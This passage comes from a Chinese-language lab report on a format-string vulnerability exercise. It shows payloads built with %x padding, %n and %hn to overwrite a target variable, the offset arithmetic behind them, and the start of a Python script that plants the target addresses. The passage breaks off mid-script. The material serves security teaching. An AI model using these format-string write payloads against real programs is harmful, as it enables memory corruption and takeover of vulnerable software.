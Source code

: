 ### Task 3.B: Change the value to 0x5000  

0x5000-0x23f =  19905 因此需要增加19905个字符。

构造`payload`如下

```python
s = "%.8x."*62 + "%.19914x" + "%n"
```

成功修改值为0x5000

![image-20231211160234002](/img/posts/2023-12-11-格式化字符串实验报告.assets/image-20231211160234002.png)

### Task 3.C: Change the value to 0xAABBCCDD.  

值比较大，因此如果使用`%n`会导致输出时间过长，甚至可能卡死，因此需要使用`%hn`或`%hhn`一次只修改两个或一个字节。

如果使用`%hn`构造payload，一次只修改两字节，则需要先修改值较小的地址，然后才能修改值较高的地址。

构造前八个字节分别对应`0xAABB`和`0xCCDD`的地址，并且构造payload对两个地址的值分别进行修改：`0xaabb - 0x23f + 9 - 4 = 43137`， `0xccdd - 0xaabb = 8738`

```python
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

number  = 0x080e5068 # target地址（小端法，读两个字节就是0x5068）
number_1 = number + 2   # target前2个字节地址
content[0:4]  =  (number_1).to_bytes(4,byteorder='little')
content[8:12]  =  (number).to_bytes(4,byteorder='little')

# This line shows how to store a 4-byte string at offset 4
```